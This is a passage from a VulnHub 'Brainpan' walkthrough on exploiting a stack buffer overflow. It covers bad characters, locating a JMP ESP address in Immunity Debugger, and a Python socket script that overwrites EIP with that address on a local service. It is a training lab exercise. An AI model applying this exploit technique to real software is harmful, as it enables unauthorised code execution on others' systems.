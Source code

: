 - We are lucky there aren't badchars
- By default  `\x00` is badchar so we excluded from the list
- Check the [VulnHub - School](https://al1enum.github.io/vulnhub/walkthrough/2020/12/16/vulnhub-school.html) for BOF with badchars and how to handle it

![image]( /assets/img/brainpan/Pasted image 20210609235751.png)

#### JMP ESP

We don’t need to give to the EIP the exact address of our malicious shellcode. The instruction **JMP ESP** will jump to the stack pointer and execute our malicious shellcode. So, If we can find the JMP ESP instruction in the program, we can give its memory address to the EIP and it will jump to automatically to our malicious shellcode.

![image]( /assets/img/brainpan/Pasted image 20210609235930.png)

Immunity Debugger -> Search for -> All commands -> JMP ESP

![image]( /assets/img/brainpan/Pasted image 20210610000525.png)

- The address of the JMP ESP is :  
	- 311712F3 or in little endian
	-  `\xF3\x12\x17\x31`

#### JMP ESP | Call confirmation

- Toggle Breakpoint on JMP ESP Address

![image]( /assets/img/brainpan/Pasted image 20210610001923.png)

- Becarefull do not encode the `\xF3\x12\x17\x31` just  concat it with the encoded payload like this  `payload.encode('utf-8')+b'\xF3\x12\x17\x31'`

```python
import socket,sys

#Identify that the EIP call the 'JMP ESP's instruction address
payload = "A" * 524
try:
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(('127.0.0.1',9999))
    s.recv(1024)
    s.send(payload.encode('utf-8')+b'\xF3\x12\x17\x31')
    s.close()
except Exception as ex:
    print(ex)
    print("[X] Connection error")
    sys.exit()
```

![image]( /assets/img/brainpan/Pasted image 20210610005103.png)

- We triggered the breakpoint. Therefore, the EIP call successfully the address of the Instruction JMP ESP.

